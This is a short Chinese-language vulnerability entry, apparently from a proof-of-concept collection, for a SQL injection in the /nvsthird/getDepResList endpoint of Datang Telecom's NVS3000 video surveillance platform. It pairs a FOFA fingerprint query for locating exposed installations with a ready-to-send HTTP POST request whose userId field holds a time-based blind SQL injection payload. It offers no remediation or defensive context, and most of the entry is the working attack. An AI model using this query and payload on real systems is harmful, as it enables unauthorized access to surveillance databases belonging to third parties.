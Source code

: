 ## 大唐电信NVS3000综合视频监控平台getDepResList存在SQL注入漏洞

大唐电信科技股份有限公司NVS3000综合视频监控平台 /nvsthird/getDepResList 接口存在SQL注入。

## fofa

```
(body="NVS3000综合视频监控平台" && title=="综合视频监控平台") || app="大唐电信-NVS3000"
```

## poc

```yaml
POST /nvsthird/getDepResList HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Length: 49

{"userId":"1' AND (SELECT 8845 FROM (SELECT(SLEEP(5)))KRNM) AND 'JWDU'='JWDU"}
```


